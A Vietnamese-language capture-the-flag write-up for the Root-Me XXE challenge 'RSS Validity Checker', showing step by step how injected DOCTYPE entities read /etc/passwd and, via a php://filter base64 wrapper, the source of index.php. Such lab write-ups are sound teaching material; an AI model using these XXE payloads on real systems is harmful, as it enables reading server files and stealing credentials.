






# XML - External Entity

**Tên challenge:** RSS Validity Checker

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/XML-External-Entity)

**Tác giả challenge:** sambecks

**Mục tiêu challenge:** Retrieve the administrator password.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website chỉ có 2 chức năng là `Login` và `Check Valid RSS` như sau:




Vì ta đã biết lỗ hổng là XXE cho nên mục đích của ta là chèn file XML độc hại vào Website để nó thực thi câu lệnh đó và lấy được `password`.

Như yêu cầu của Input `Checker` là nó sẽ kiểm tra đường dẫn tới 1 file RSS và kiểm tra xem thông tin RSS có hợp lệ không.

Bạn có thể vào link sau để lấy mẫu XML RSS: [XML RSS](https://www.w3schools.com/xml/xml_rss.asp)

**B2:** Ta thử dùng Webhook và edit lại nội dung của trang Webhook thành mẫu XML RSS mà ta lấy từ link trên:


Sau đó, ta tiến hành copy link Webhook và paste vào Input `Checker`.



Ở đây ta thấy nó xuất hiện 2 dòng `RSS Tutorial` và `XML Tutorial`.

=> Website đã lấy dữ liệu từ file RSS của ta và ta cũng có thể lợi dụng `Title` để chèn vào payload XML để xem liệu trang Web có thực thi không. 

**B3:** Ta tiếp tục thử input payload sau:
```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE replace [<!ENTITY example "TEST"> ]>
<rss version="2.0">

<channel>
  <title>W3Schools Home Page</title>
  <link>https://www.w3schools.com</link>
  <description>Free web building tutorials</description>

  <item>
    <title>&example</title>
    <link>https://www.w3schools.com/xml/xml_rss.asp</link>
    <description>New RSS tutorial on W3Schools</description>
  </item>

  <item>
    <title>XML Tutorial</title>
    <link>https://www.w3schools.com/xml</link>
    <description>New XML tutorial on W3Schools</description>
  </item>
</channel>

</rss>
```
Cụ thể là ta đã thêm dòng thứ 2 `<!DOCTYPE replace [<!ENTITY example "TEST"> ]>` và thay đổi `Title` đầu tiên thành `<title>&example;</title>` để test thử XXE.



=> Kết quả `Title` đầu tiên đã đổi thành `TEST`.

`B4:` Ta chuyển payload `XXE` trên thành payload đọc file `/etc/passwd`.
```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE replace [<!ENTITY example SYSTEM "file:///etc/passwd"> ]>
<rss version="2.0">

<channel>
  <title>W3Schools Home Page</title>
  <link>https://www.w3schools.com</link>
  <description>Free web building tutorials</description>
  <item>
    <title>&example;</title>
    <link>https://www.w3schools.com/xml/xml_rss.asp</link>
    <description>New RSS tutorial on W3Schools</description>
  </item>
  <item>
    <title>XML Tutorial</title>
    <link>https://www.w3schools.com/xml</link>
    <description>New XML tutorial on W3Schools</description>
  </item>
</channel>

</rss>
```
Tuy nhiên kết quả trả về là:
```
XML document is not valid
```
Tới đây, có thể là Challenge đã chặn ta đọc file `passwd` hoặc cũng có thể Output trả về không hợp lệ với cú pháp tiêu chuẩn của file XML nên ta sẽ thử cách là dùng đến `PHP Wrapper`, cụ thể hơn là dùng `php://filter` để chuyển đổi nội dung đọc được thành dạng `Base64`, có như vậy thì chuỗi đầu ra sẽ là 1 dãy ký tự phù hợp với cú pháp tiêu chuẩn của file XML.

**B5:** Ta thử giả thuyết trên:
```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/read=convert.base64-encode/resource=index.php"> ]>
<rss version="2.0">

<channel>
  <title>W3Schools Home Page</title>
  <link>https://www.w3schools.com</link>
  <description>Free web building tutorials</description>
  <item>
    <title>&example;</title>
    <link>https://www.w3schools.com/xml/xml_rss.asp</link>
    <description>New RSS tutorial on W3Schools</description>
  </item>
</channel>

</rss>
```



=> Vậy là ta đã thành công in ra được nội dung của file cần đọc.

Tiếp đến, ta chỉ cần chuyển giải mã nội dung **Base64** trên là sẽ đọc được nội dung gốc.

<u>**Thông tin thêm:**</u> Flag nằm ở file `.passwd` cùng thư mục chứa file `index.php`